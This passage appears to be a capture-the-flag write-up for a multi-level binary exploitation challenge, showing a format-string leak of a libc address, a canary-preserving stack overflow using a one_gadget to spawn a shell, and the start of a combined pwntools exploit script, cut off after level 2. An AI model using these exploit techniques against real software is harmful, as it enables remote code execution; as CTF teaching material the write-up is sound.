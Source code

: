 ```
# nc localhost 1337
----- LEVEL 5 -----
This is your final task - defeat this level and you will be rewarded.
Choose your path to victory...

Choice [0 exit][1 small][2 large][3 format]: 3
Path 3 - The possibilities are endless!
%67$p
0x7ffff7dd2620
Still alive?

Choice [0 exit][1 small][2 large][3 format]:
```

We have all the pieces. The stack canary is at offset 24 in the small overflow. The saved return pointer is at offset 40. The meat of the exploit looks like this:

```
    io_stdout_offset = 0x3c5620
    libc_base = io_stdout - io_stdout_offset
    print "libc base:", hex(libc_base)

    one_gadget_offset  = 0x45216
    one_gadget = libc_base + one_gadget_offset
    print "one-gadget-rce:", hex(one_gadget)
    r.sendline(small)
    print r.recv()

    buf = ""
    buf += "A"*(small_offset - 16)          # junk
    buf += p64(canary)                      # stack canary
    buf += p64(0x646464646464)              # saved frame pointer
    buf += p64(one_gadget)                  # saved return pointer
    buf += "\x00"*(small_max - len(buf))    # more junk
    r.sendline(buf)
    r.interactive()
```

This will give us a shell on the target. 

#### Final exploit

To obtain the flag, we need to pass each level on the target. As I said earlier, each solved challenge will execute the next one, which means we need to continously communicate with the target until we get the flag. Here's the final exploit combining all the challenge solutions:

```
#!/usr/bin/env python

import sys
from pwn import *
context(os="linux", arch="amd64")

def level1():
    print r.recv()
    r.sendline("252534")
    print r.recv()

def level2():
    buf = ""
    buf += "A"*124
    buf += "\xc9\x07\xcc"
    print r.recv()
    r.sendline(buf)
    print r.recv()

```